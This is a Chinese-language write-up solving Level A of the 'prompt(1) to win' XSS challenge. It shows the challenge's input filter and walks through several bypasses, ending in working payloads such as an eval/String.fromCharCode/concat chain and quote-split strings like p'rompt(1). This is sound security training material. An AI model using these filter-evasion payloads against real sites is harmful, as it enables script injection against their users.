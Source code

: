 ## [[prompt(1) to win](http://prompt.ml)] [[Level A - (╯°□°）╯︵ ┻━┻](http://prompt.ml/10)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-a-(╯°□°）╯︵-┻━┻/)]

------

## 题目

```javascript
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}
```

## 解题报告

题目对输入内容**依次**做了三段过滤：

- 使用 `encodeURIComponent` 做 URL 编码
- 把 `prompt` 换成了 `alert`
- 过滤了所有单引号 `'`

虽然输入内容直接在 `<script>` 里面，但是要把 `prompt` 成功写入的方法似乎都失效了。

因为除了 `a-z`、 `A-Z`、`0-9`、 `.`、 `(`、 `)`、 `!`、 `~`、 `*` 这些字符，其他都几乎被过滤了。

------------


我最开始想到，JS 解析器在解析标识符名称时（如函数名、属性名）等，若遇到 Unicode 会直接进行解码，并使得标识符依旧生效。于是构造了这个 payload `\u0070\u0072\u006f\u006d\u0070\u0074(1)` 绕过 `replace` 以在前端直接构造 `prompt(1)` , 但是 `\` 被 `encodeURIComponent` 转码成了 `%5C` ，失败。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/01.png)

后来又想到 `eval` 函数，于是构造这个 payload  `eval(String.fromCharCode(112,114,111,109,112,116,40,49,41))` 

期望可以绕过 `replace` 逐字符构造 `prompt(1)` ，但是 `,` 被 `encodeURIComponent` 转码成了 `%2C` ，还是失败。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/02.png)

不过转念一想，既然不能用逗号 `,` 拼接字符，那么直接用 `concat` 函数就可以了。

于是重新构造 payload 如下，完成挑战：

```javascript
eval(String.fromCharCode(112).concat(String.fromCharCode(114)).concat(String.fromCharCode(111)).concat(String.fromCharCode(109)).concat(String.fromCharCode(112)).concat(String.fromCharCode(116)).concat(String.fromCharCode(40)).concat(String.fromCharCode(49)).concat(String.fromCharCode(41)))
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/03.png)

------------

其实这题想多了反而复杂，有一个更简单的方法是 **利用题目自身的逻辑过滤去绕过**。

题目首先把 `prompt` 替换成 `alert` ， 然后又把单引号 `'` 替换成空。

那么其实只需要把单引号 `'` 插到 `prompt` 中间的任意位置就可以绕过所有过滤了。。。

所以这些 payload 都是可以完成挑战的：

- `p'rompt(1)`
- `pr'ompt(1)`
- `pro'mpt(1)`
- `prom'pt(1)`
- `promp't(1)`
- `p'r'o'm'p't(1)`

因为这些字符本身属于保留字符，不会被 `encodeURIComponent` 编码；其次 `prompt` 中间有单引号 `'` 的时候，也不满足 `replace` 的条件；最后题目还很贴心地帮我们把所有单引号 `'` 删掉了，，，，所以有时其实真是我们想太多了。。。(╯°□°）╯︵ ┻━┻

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
